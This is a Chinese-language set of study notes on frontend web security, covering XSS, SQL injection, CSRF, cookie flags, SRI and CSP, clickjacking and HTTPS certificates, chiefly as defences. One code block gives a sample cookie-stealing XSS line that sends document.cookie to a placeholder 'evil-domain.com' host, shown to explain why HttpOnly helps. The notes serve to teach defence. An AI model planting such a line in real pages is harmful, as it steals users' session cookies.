 # 前端安全性

腾讯大牛亲授漏洞防御(第 7 章 HTTP 传输窃听)

## xss 处理(Cross Site Scripting) 跨站脚本攻击

### scripting 能干吗？

1. 获取页面数据
2. 获取 cookies
3. 劫持前端逻辑
4. 发送请求
5. 偷取网站任意数据
6. 偷取用户资料
7. 偷取用户密码和登录态
8. 欺骗用户

### xss 攻击分类

1. 反射型(url 参数直接注入)
2. 存储型(存储到 DB 后读取时注入)

### xss 攻击注入点

浏览器只能拦截前两种(只适合反射性 css)

1. HTML 节点内容
2. HTML 属性
3. Javascript 代码
4. 富文本

本质是 HTML 注入,用户输入的数据被当成 Html 代码执行了
对<>单引号和双引号进行转义;对空格进行转义

1. cookie 使用 HttpOnly 限制: 是的客户端的 js 代码不能读取到 cookie 值,但是不能防止从 HTTP header 里得到 cookie
2. 输出文本 HTML 转义:对网页上显示的文本内容使用 HtmlEncode 转义。js 函数：OWASP ESAPI 中的 encodeCharacter。其它的如 xmlencode、jsonencode 等转义函数。
3. 检查输入的 URL
4. 对传入 js 函数的文本类型参数值进行 javascript 转义

会话劫持和 XSS：
常用的窃取 Cookie 的方法有利用社会工程学攻击和利用应用程序漏洞进行 XSS (en-US) 攻击。
content-security-policy
CSP 的实质就是白名单制度，开发者明确告诉客户端，哪些外部资源可以加载和执行，等同于提供白名单。它的实现和执行全部由浏览器完成，开发者只需提供配置。

```js
// HttpOnly 类型的 Cookie 用于阻止了JavaScript 对其的访问性而能在一定程度上缓解此类攻击。
new Image().src =
  "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

## SQL 注入

预防办法：数据与代码分离,即不用字符串拼凑 SQL 语句

## XST 处理

XST(跨站追踪)攻击，关闭 Web 服务器的 TRACE 方法

## CSRF 攻击的防御

Cross Site Request forgery(跨站请求伪造)

- CSRF 攻击的危害

1. 利用用户登录态
2. 用户不知情
3. 盗取用户资金转账消费

- csrf 防御

1. same-site:strict 可以禁止第三方 cookie

- 特征不访问 A 网站前端

1. 在前端页面加入验证信息
2. 验证码(图形验证码)
3. token

- 令牌同步模式(tokie)
  原理:令牌可以通过任何方式生成，只要确保随机性和唯一性.这样确保攻击者发送请求时候，由于没有该令牌而无法通过验证。
- 检查 Referer 字段
  因其完全依赖浏览器发送正确的 Referer 字段。虽然 http 协议对此字段的内容有明确的规定，但并无法保证来访的浏览器的具体实现，亦无法保证浏览器没有安全漏洞影响到此字段。并且也存在攻击者攻击某些浏览器，篡改其 Referer 字段的可能。
- 添加校验 token
  由于 CSRF 的本质在于攻击者欺骗用户去访问自己设置的地址;正常的访问时，客户端浏览器能够正确得到并传回这个伪随机数，而通过 CSRF 传来的欺骗性攻击中，攻击者无从事先得知这个伪随机数的值，服务端就会因为校验 token 的值为空或者错误，拒绝这个可疑请求。

## HTTP 头注入

## Cookie 安全

标记为 Secure 的 Cookie 只应通过被 HTTPS 协议加密过的请求发送给服务端
HttpOnly 属性可防止通过 javascript 访问 cookie 值
SameSite 属性 允许服务器要求某个 cookie 在跨站请求时不会被发送,从而可以阻止跨站请求伪造攻击(CSRF)
Cookie 的 SameSite 属性用来限制第三方 Cookie，从而减少安全风险

1. SameSite=None:浏览器会在同站请求、跨站请求下继续发送 cookies,不区分大小写
2. SameSite=Strict:浏览器将只在访问相同站点时发送 cookie。（在原有 Cookies 的限制条件上的加强，如上文 “Cookie 的作用域” 所述）; 这个规则过于严格，可能造成非常不好的用户体验。比如，当前网页有一个 GitHub 链接，用户点击跳转就不会带有 GitHub 的 Cookie，跳转过去总是未登陆状态。
3. SameSite=Lax:但只有当用户从外部站点导航到 URL 时才会发送。如 link 链接

```JS
Set-Cookie: key=value; SameSite=Strict;
Set-Cookie: sessionId=e8bb43229de9; Domain=foo.example.com
```

- 预防

1. 用户 ID+签名 sign 保证用户 Id 不被篡改
2. SessionId(随机字符串)
3. 加密 userId
4. http only
5. secure
6. same-site

## 提高资源的安全性-SRI(Subresource Integrity) 与 CSP

1. 首先需要服务器开启内容安全策略即:Content-Security-Policy: require-sri-for script;
2. 加入 integrity 值

```js
<script
  type="text/javascript"
  src="app.bundle.js"
  integrity="sha256-WcONURDxHuPpCyTfyxv6ULC5IQS8W/TvkOfiluU2Y1w= sha512-XZBIDDYvednMCvIE+VxLhoh3GZ550KQEUuUG8EA/HNUKVOa9sl2YpyeIGVmi6NVu2VAAT+bReuzUszzugYNxKQ=="
  crossorigin="anonymous"
></script>;
crossorigin: "" | anonymous | (use-credentials) 请求头都会带上Origin 属性
// 使用use-credentials,这个就同时会在跨域请求中带上 cookie 和其他的一些认证信息. 需要服务端response Header 返回：Access-Control-Allow-Credentials
```

- SRI
  SRI 是用来校验资源是否完整的安全方案。通过为页面引用的资源指定信息摘要，当资源被劫持篡改内容时，浏览器校验信息摘要不匹配，将会拒绝代码执行并抛出加载异常，保证加载资源的完整性。
  启用 SRI:使用 SRI 只需要给页面标签添加 integrity 属性，属性值为签名算法（sha256、sha384、sha512）和摘要签名内容组成，中间用 - 分隔。
  可以通过 webpack webpack-subresource-integrity 插件实现 integrity 实现添加过程。
  开启 SRI，浏览器会对相关资源进行 CORS 检查。至此，当资源内容被劫持篡改时，浏览器校验签名不匹配将使得异常资源不被执行，并触发加载失败。从而进入到资源加载失败的监控流程中，最终可以通过切换 CDN 域名或主域名进行加载重试，直到加载上正确资源，避免资源被劫持篡改内容后注入广告或白屏等情况。
  HTTPS 可以有效应对流量劫持的问题，SRI 在资源完整性再上一道屏障，CSP 也进行了其他方面的补充。“三驾马车” 为页面资源安全 “保驾护航”。

## 点击劫持

- 用户亲手操作
- 用户不知情
  危害:可以转账,消费,获取用户敏感信息
  通过 iframe 放在目标网站,透明度设置为 0;还可以通过 flash
  怎么防御?  
  javascript 禁止内嵌(判断 location 是不是相同)

  ```js
  top.location.href = window.location.href;
  ```

  http 头 X-Frame-Options
  deny: 浏览器会拒绝加载当前页面加载任何 iframe 页面
  SAMEORIGIN:frame 页面地址只能为同源页面地址,
  ALLOW-FROM origin:运行 frame 加载页面地址

## http 传输窃听

- 如何确定服务器身份
  可以解决中间人攻击
  重点:证书无法伪造;证书私钥不被泄露;域名管理权不泄露;CA 坚守原则
  证书不受信任;浏览器或弹出你的连接不是私密连接(浏览器不确定服务器身份)

1. 浏览器内置证书(ca)信任列表
2. 服务器去 CA 申请证书
3. (ca)验证域名颁发证书
4. 浏览器向服务器发起请求
5. 服务器向浏览器出具证书
6. 浏览器验证通过

## 信息泄露的途径

- 错误信息失控
- SQL 注入
- 水平权限控制不当
- xss 和 csrf 攻击